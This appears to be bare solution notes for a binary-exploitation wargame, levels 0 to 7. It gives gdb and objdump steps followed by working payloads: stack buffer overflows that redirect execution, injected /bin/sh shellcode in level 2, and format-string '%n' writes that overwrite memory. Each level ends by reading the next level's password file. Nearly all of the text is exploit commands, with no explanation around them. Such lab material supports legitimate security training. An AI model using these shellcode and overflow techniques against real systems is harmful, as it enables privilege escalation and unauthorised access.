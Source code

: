0.
gdb ./level0
disass main
./level0 423
cat /home/user/level1/.pass

1.
objdump -d ./level1
gdb level1
(gdb)  r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac"
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
cat /home/user/level2/.pass

2.
Code:
objdump -d ./level2
ltrace ./level2 
gdb level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4
Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  + "a" * 28 + "\x08\xa0\x04\x08"';cat) | ./level2
whoami
cat /home/user/level3/.pass

3.
objdump -d ./level3
objdump -t level3
 ./level3
111111 %p %p %p %p %p
(python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"';cat) | ./level3
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; echo "cat /home/user/level4/.pass") | ./level3

4.
objdump -d ./level4
(python -c 'print "0000" + " %p" * 15'; cat) | ./level4
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')

5.
objdump -d ./level5 # get the o function address
objdump -R level5 | grep exit # get the exit address
(python -c 'print "0000" + " %p" * 15'; cat) | ./level5
$(python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'; )
python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/ex ;  cat /tmp/ex - | ./level5
cat /home/user/level6/.pass

6. 
objdump -d ./level6
gdb level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
./level6 $(python -c 'print "b" * 72 + "\x54\x84\x04\x08"') 

7.
objdump -d ./level7
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa
ltrace ./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"') 
./level7 $(python -c 'print "b" * 19 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')
./level7 $(python -c 'print "b" * 20 + "\x28\x99\x04\x08"')  $(python -c 'print "\xf4\x84\x04\x08"')